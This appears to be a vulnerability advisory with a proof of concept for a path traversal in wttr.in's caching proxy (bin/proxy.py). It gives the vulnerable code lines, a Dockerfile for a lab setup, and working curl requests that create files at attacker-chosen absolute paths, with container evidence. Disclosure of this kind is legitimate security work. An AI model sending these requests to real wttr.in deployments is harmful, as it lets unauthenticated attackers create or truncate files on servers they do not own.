



# CVE-2026-50926 — Path Traversal to Arbitrary File Creation/Truncation in wttr.in proxy cache

[CVE ID]
CVE-2026-50926

[PRODUCT]
chubin/wttr.in — console-oriented weather forecast service (Flask web frontend plus a caching backend proxy, `bin/proxy.py`)

[VERSION]
commit `f1eb35993f0a919bf8da147a59f8919cb21fcb89` (2025-10-13, "Merge pull request #1151 from chubin/i.cache-cleanup")

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The caching proxy `bin/proxy.py` serves a catch-all endpoint `GET /<path:path>` (Flask route on the proxy port, 5001 in the official Docker image). The handler takes the raw query string from the request (`request.query_string`, line 367) and passes it, together with the URL path, down to the cache layer. `_cache_file()` (line 105) builds the cache file name as `os.path.join(PROXY_CACHEDIR, timestamp, path, query)` (line 118) without any canonicalization or containment check. Because `os.path.join` discards all preceding components when a later component is absolute, a query string that begins with `/` turns the whole cache file name into an attacker-chosen absolute path (and `..` segments in `path`/`query` likewise escape the cache directory). On a cache miss, `_fetch_content_and_headers()` unconditionally calls `_touch_empty_file()` (line 306), which does `os.makedirs()` + `open(cache_file, "w").write("")` (line 142) — creating or truncating a file at that arbitrary path even when the upstream weather API is unreachable; if the upstream does answer, `_save_content_and_headers()` (line 310) additionally writes the upstream response bytes and a `.headers` JSON sidecar to the same escaped location (lines 150–151).

Vulnerable code: <https://github.com/chubin/wttr.in/blob/f1eb35993f0a919bf8da147a59f8919cb21fcb89/bin/proxy.py#L105-L122>

## Proof of Concept

### Victim setup

Built from the pinned commit (the upstream `Dockerfile` needs two snapshot fixes — the missing `share/we-lang/` tree and a build-time declaration in `internal/view/v1/view1.go` — applied by the `Dockerfile.scdd-e2e` reproduced in full below; the shipped `bin/proxy.py` is byte-identical to the commit, sha256 `fb2951927ac32888bbae943d1c261e5bfdedeef5accfcaa6671e9965f3b43170`):

```bash
git clone https://github.com/chubin/wttr.in.git && cd wttr.in
git checkout f1eb35993f0a919bf8da147a59f8919cb21fcb89
# Dockerfile.scdd-e2e (runbook version, verbatim): golang:1-alpine builds the bundled Go
# helper via share/scripts/build-welang.sh; python:3.11-slim + supervisor run bin/srv.py,
# bin/proxy.py, bin/geo-proxy.py
cat > Dockerfile.scdd-e2e <<'DOCKERFILE'
# Build stage
FROM golang:1-alpine as builder

WORKDIR /src

COPY ./internal/view/v1 /src/internal/view/v1
COPY ./share/scripts/build-welang.sh /src/share/scripts/build-welang.sh

RUN apk add --no-cache bash git
RUN sed -i '/switch g.config.Lang {/i\date_format := ""' /src/internal/view/v1/view1.go
RUN mkdir -p /out && bash share/scripts/build-welang.sh /out/wttr.in

# Application stage
FROM python:3.11-slim

WORKDIR /app
COPY ./requirements.txt /app

RUN apt-get update && apt-get install -y --no-install-recommends \
    bash build-essential autoconf automake libtool pkg-config supervisor \
    && rm -rf /var/lib/apt/lists/*

RUN mkdir -p /app/cache /wttr.in/log/missing-translation /var/log/supervisor /etc/supervisor/conf.d \
    && chmod -R o+rw /wttr.in/log /var/log/supervisor /var/run \
    && pip install -r requirements.txt --no-cache-dir

COPY --from=builder /out/wttr.in /app/bin/wttr.in
COPY ./bin /app/bin
COPY ./lib /app/lib
COPY ./share /app/share
COPY share/docker/supervisord.conf /etc/supervisor/supervisord.conf

ENV WTTR_MYDIR="/app"
ENV WTTR_GEOLITE="/app/GeoLite2-City.mmdb"
ENV WTTR_WEGO="/app/bin/wttr.in"
ENV WTTR_LISTEN_HOST="0.0.0.0"
ENV WTTR_LISTEN_PORT="8002"
ENV WTTR_USER_AGENT="scdd-e2e/1.0 (authorized local test)"

EXPOSE 8002
CMD ["/usr/bin/supervisord", "-c", "/etc/supervisor/supervisord.conf"]
DOCKERFILE

docker build -t scdd-platform/wttr.in:f1eb3599 -f Dockerfile.scdd-e2e .
docker run -d --name scdd_50926_wttr \
  -e WTTR_USER_AGENT="scdd-e2e/1.0 (CVE-2026-50926 authorized local test)" \
  -p 38110:5001 scdd-platform/wttr.in:f1eb3599
# wait for readiness; probe returns 404 (proxy only serves /<path:path>)
curl -sS -o /dev/null -w "%{http_code}\n" http://127.0.0.1:38110/   # -> 404
```



### Attack steps

A single unauthenticated GET whose query string starts with an absolute path (the `q=0,0` coordinate is required so the query survives normalization in `_normalize_query_string`/`metno_request`):

```bash
ts="$(date +%s)"
curl -sS --max-time 120 -o /dev/null -w "attack#1 HTTP %{http_code}\n" \
  "http://127.0.0.1:38110/premium/v1/weather.ashx?/tmp/CVE50926_MARKER_${ts}&num_of_days=1&q=0,0"
# -> attack#1 HTTP 500   (the file write happens server-side before the error)

# second variant proving the directory is attacker-chosen:
curl -sS --max-time 120 -o /dev/null -w "attack#2 HTTP %{http_code}\n" \
  "http://127.0.0.1:38110/premium/v1/weather.ashx?/var/tmp/CVE50926_MARKER2_${ts}&num_of_days=1&q=0,0"
# -> attack#2 HTTP 500
```



### Evidence

`docker exec` inside the victim container shows the marker files created outside the intended `PROXY_CACHEDIR` (`/wttr.in/cache/proxy-wwo/`, which contains no marker entries at all). The final file name is the attacker prefix plus the `&lat=0.0&lon=0.0&` suffix appended by query normalization:

```
-- ls -la /tmp (marker rows) --
-rw-r--r-- 1 root root    0 Sep 28 04:37 CVE50926_MARKER_1790570208&lat=0.0&lon=0.0&
-- details --
FILE=/tmp/CVE50926_MARKER_1790570208&lat=0.0&lon=0.0&
bytes=0

-rw-r--r-- 1 root root    0 Sep 28 04:37 CVE50926_MARKER2_1790570208&lat=0.0&lon=0.0&   # in /var/tmp
```

The proxy stderr log confirms the request was served by the vulnerable handler and that the 500 occurs after the write (upstream returned no usable forecast, so only the 0-byte `_touch_empty_file` primitive fired):

```
  File "/app/bin/proxy.py", line 374, in proxy
    content, headers = _make_query(path, query_string)
  File "/app/bin/proxy.py", line 327, in _make_query
    content = create_standard_json_from_metno(content, days)
  File "/app/lib/metno.py", line 384, in create_standard_json_from_metno
    hourlies = forecast["properties"]["timeseries"]
KeyError: 'properties'
```



## Impact

A remote, unauthenticated attacker who can reach the wttr.in proxy port can make the service create or truncate files at attacker-chosen absolute paths anywhere the proxy process can write (runs as root in the official image layout), entirely outside the intended `/wttr.in/cache/proxy-wwo/` cache directory — demonstrated end-to-end as the creation of new 0-byte files in `/tmp` and `/var/tmp`. The sink is `open(..., "w")` in `_touch_empty_file` (create-or-truncate to 0 bytes), which fires even when the upstream weather API is unreachable; when the upstream does respond, its response bytes are written to the escaped path instead (upstream-controlled content, not attacker-chosen content). Arbitrary attacker-controlled content and exact-name targeting of pre-existing files are constrained by the `&lat=..&lon=..` suffix that query normalization appends to the file name, and are not claimed here: truncating a specific pre-existing file would require its name to already end in that suffix, so only the creation of new files with attacker-chosen prefixes is demonstrated. The CVE record phrases the effect as "obtain sensitive information"; the reproducible effect per this evidence is the arbitrary-path 0-byte file creation primitive above (a denial-of-service / integrity impact).

## Occurrences

- `bin/proxy.py:L118` — `filename = os.path.join(PROXY_CACHEDIR, timestamp, path, query)` in `_cache_file()`: untrusted `path`/`query`, no canonicalization or containment check (absolute `query` or `..` segments escape the cache root)
- `bin/proxy.py:L142` — `open(cache_file, "w").write("")` in `_touch_empty_file()`: create/truncate sink, reached on every cache miss (line 306) regardless of upstream outcome
- `bin/proxy.py:L150-L151` — `open(cache_file + ".headers", "w")` / `open(cache_file, "wb").write(content)` in `_save_content_and_headers()`: write sink for upstream response bytes (called from line 310)
- `bin/proxy.py:L360-L367` — `@APP.route("/<path:path>")` handler sourcing `query_string = request.query_string.decode("utf-8")`

## References

- [CVE-2026-50926](https://www.cve.org/CVERecord?id=CVE-2026-50926)
- [chubin/wttr.in](https://github.com/chubin/wttr.in) — pinned commit [f1eb35993f0a919bf8da147a59f8919cb21fcb89](https://github.com/chubin/wttr.in/tree/f1eb35993f0a919bf8da147a59f8919cb21fcb89)
